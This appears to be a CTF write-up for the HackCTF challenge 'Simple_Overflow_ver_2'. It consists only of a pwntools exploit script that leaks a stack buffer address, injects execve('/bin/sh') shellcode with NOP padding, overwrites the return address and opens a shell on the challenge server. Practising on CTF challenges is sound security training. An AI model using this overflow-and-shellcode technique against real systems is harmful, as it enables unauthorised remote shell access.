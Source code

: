 ```yaml
---
title: "[HackCTF] Simple_Overflow_ver_2"
date: 2020-07-09
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


{% highlight python %}
from pwn import *

context.log_level="debug"

p = remote("ctf.j0n9hyun.xyz", 3006)
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
print(p.recv(1024))
p.sendline("A")
p.recvuntil("0x")
buf = int(p.recv(1024)[:8],16)
print(hex(buf))
p.sendline("y")

payload = shellcode
payload+= "\x90"*115
payload+= p32(buf)
p.sendline(payload)
print(p.recv(1024))
p.interactive()
{% endhighlight %}

